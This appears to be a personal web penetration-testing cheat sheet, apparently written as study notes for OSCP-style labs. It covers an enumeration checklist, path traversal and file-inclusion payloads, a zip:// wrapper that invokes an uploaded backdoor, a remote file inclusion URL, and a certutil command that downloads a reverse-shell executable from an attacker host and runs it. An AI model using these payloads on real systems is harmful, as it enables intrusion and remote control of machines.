 - [Checklist](#checklist)
- [Default Webroot](#default-webroot)
- [Local File Inclusion](#local-file-inclusion)
- [Remote File Inclusion](#remote-file-inclusion)
- [Curl](#curl)
- [View Source Code](#view-source-code)
- [Gobuster](#gobuster)
- [Feroxbuster](#feroxbuster)
- [File Upload Vulnerability](#file-upload-vulnerability)
- [Java Code Execution](#java-code-execution)
- [HTTP Header](#http_header)

# Checklist
- [ ] NMAP scripts
  -  nmap -sV --script=http-enum -oA nibbles_nmap_http_enum 10.129.42.190
- [ ] IIS version -> windows version
- [ ] curl -IL https://www.inlanefreight.com
- [ ] whatweb 10.10.10.121
- [ ] View Source Code
- [ ] Gobuster
  - admin portal?
  - file upload vuln?
  - plugin page?
- [ ] wfuzz
- [ ] Check README
- [ ] Did we run exiftool against anything found?
- [ ] DNS enumeration
- [ ] Authentication: cewl -d 2 -m 4 http://10.129.200.170/nibbleblog/
- [ ] File upload vulnerability
- [ ] Discover webroot
- [ ] Robots.txt
- [ ] Local File Inclusion
- [ ] Remote File Inclusion
- [ ] SQLi
  - Try injecting a single quote(')
  - Try injecting %27



# Default Webroot
```bash
Apache	/var/www/html/
Nginx	/usr/local/nginx/html/
IIS	c:\inetpub\wwwroot\
XAMPP	C:\xampp\htdocs\
```


# Local File Inclusion
- Click stuff to find out if we can find this ?file=, ?page=
- We could also utilize zip://, file:// php://
  - ?file=zip://uploads/upload_xkxkxk.zip%23simple-backdoor&cmd=whoami

![image](https://github.com/nuricheun/OSCP/assets/14031269/c80aca68-e70d-42e5-a1ca-dd124e75324f)

**Windows**
- ?page=C:/Windows/System32/drivers/etc/hosts
- ?page=../../../../../../../../Windows/System32/drivers/etc/hosts
- ?file=zip://uploads/upload_xkxkxk.zip%23simple-backdoor&cmd=whoami

**Linux**


# Remote File Inclusion
- ?page=http://192.168.45.208/somefile.php


# Curl 
- When there are URLs pointing at something suspicious, change method (from GET to POST) with curl can give you clear answers
```bash
curl -X POST -d '{"user":"clumsyadmin", "url":"http://192.168.45.175:443/list-running-procs"}' http://192.168.163.99:33333/list-running-procs
```


# File Upload Vulnerability
```bash
# always check root after uploading something
http://example.com/uploadedsomething.txt
http://example.com/upload/uploadedsomething.txt
http://example.com/uploads/uploadedsomething.txt


```


# Java Code Execution (C:/Windows/Temp/)
```bash
certutil -urlcache -f http://192.168.45.176/rev80.exe C:/Windows/Temp/rev80.exe
C:/Windows/Temp/rev80.exe
```

# HTTP Header
```bash
# signal the web server about the original client IP address
X-Forwarded-For

```
